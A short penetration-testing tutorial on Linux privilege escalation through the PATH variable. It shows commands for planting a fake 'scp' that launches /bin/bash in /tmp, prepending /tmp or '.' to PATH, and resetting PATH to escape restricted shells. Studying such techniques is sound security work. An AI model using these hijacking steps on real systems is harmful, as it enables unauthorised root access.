 # PATH variable

in PATH environmental variable, its specifies all bin and sbin directories that hold all executable programs are stored. It really useful in some case of priviliage esclation tricks.

## Exported Path

First check if $PATH is exported so we can change it:

```
bob@victimlab:~/#: export -p
...
declare -x ORACLE_HOME="/opt/oracle/instantclient_12_1"
declare -x PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/opt/oracle/instantclient_12_1:/opt/oracle/instantclient_12_1"
...
```
Then, we can set the $PATH to include path to our folder which cotains malicous binary as following:

```
bob@victimlab:~/#: cd /tmp
bob@victimlab:~/#: echo "/bin/bash" > scp
bob@victimlab:~/#: chmod 777 scp
bob@victimlab:~/#: echo $PATH
bob@victimlab:~/#: export PATH=/tmp:$PATH
```

So if program uses the scp command under root it will give us path to priviliage esclation with our malicous binary.

Antoher trick could be use the dot (.) in environment PATH variable so we can execute binaries/scripts from the current directory:

```
root@kali:~/#: export PATH=.:$PATH
```

## Missing binaries

In some restricted shells we may not able use common binaris such as "cd", "sh" etc.
So we'll use export path to load all available binaries:

```
bob@victimlab:~/#: export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
```
